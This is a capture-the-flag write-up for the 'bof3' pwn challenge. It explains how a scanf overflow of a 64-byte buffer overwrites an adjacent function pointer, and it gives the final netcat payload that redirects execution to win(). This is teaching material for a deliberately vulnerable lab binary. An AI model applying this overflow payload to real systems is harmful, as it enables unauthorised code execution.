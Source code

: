 # bof3
**Category:** Pwn

**Points:** 25

**Description:**

Author: kablaa

nc ctf.hackucf.org 9002

> **Files:** bof3, bof3.c, libpwnableharness32.so

## Write-up
This is a buffer overflow challenge, and the code file was provided.

Looking at the code, as with others, the important function is `handle_connection()`. It contains a `scanf()` call into a buffer of 64 chars, and a function pointer pointing to the `lose()` function:
```c
void handle_connection(int sock) {
	void (*fp)(); 
	char bof[64];
	
	fp = &lose;
	
	scanf("%s",bof);
	fp();
}
```

When the program runs it waits for input in the `scanf()`, and overflowing the buffer should overwrite the function pointer.

I tried sending 65 characters to the program:
```
> python -c "print('A'*65)" | ./bof3 
Segmentation fault (core dumped)
```
Then I tried 64 (fill the buffer, but no room for `NULL` terminator):
```
> python -c "print('A'*64)" | ./bof3 
Illegal instruction (core dumped)
```
Finally I tried 63:
```
> python -c "print('A'*63)" | ./bof3 
you suck!
```

Now to open the executable in IDA and see what's going on. I jump to the `handle_connection()` function and put a breakpoint just before the function pointer is set to the `lose()` function:

![Handle connection function](handle_connection.png)

Here we can see that `var_C` represents the function pointer on the stack,  and `var_4C` represents the location of the array. These are 64 bytes apart, so the function pointer comes straight after the array, meaning we could write 64 characters, and then the address of the win function. 

First I create a file containing 64 characters so I can pass it to the IDA debugger and see it appear on the stack to confirm what I think:
```
> python -c "print('A'*64)" > inp_file.txt
```
Now we run the debugger in IDA and watch the stack synchronised with `RBP` (blue highlighted byte at `0xFF901948`):

![Stack showing RBP](stack1.png)

The 4 yellow highlighted bytes are the function pointer. We can see them change when they are set to the `lose()` function:

![Stack showing FP change](stack2.png)

If we look at the code, we can confirm this is the location of the `lose()` function:

![Lose function location](lose_function.png)

And if we continue the program, our `A` characters appear right up to our function pointer:

![Stack showing As](stack3.png)

> **Note:** the function pointer address is changed slightly as the `NULL` terminator from the string has leaked into the address.

So if we follow our A characters with the address of the `win()` function, we should get our flag. Let's look at the `win()` function:

![Win function location](win_function.png)

we can see that the address is `0x080486EB`, so our final solution is:
```
> python -c "print('A'*64 + '\xeb\x86\x04\x08')" | nc ctf.hackucf.org 9002
```
> **Note:** The above works in Python2. As Python3 uses Unicode for the basic string, and `print()` expects Unicode, for Python3 use:  
  `python3 -c "import sys; sys.stdout.buffer.write(b'A'*64 + b'\xeb\x86\x04\x08')" | nc ctf.hackucf.org 9002`

This worked, and gave me the flag.
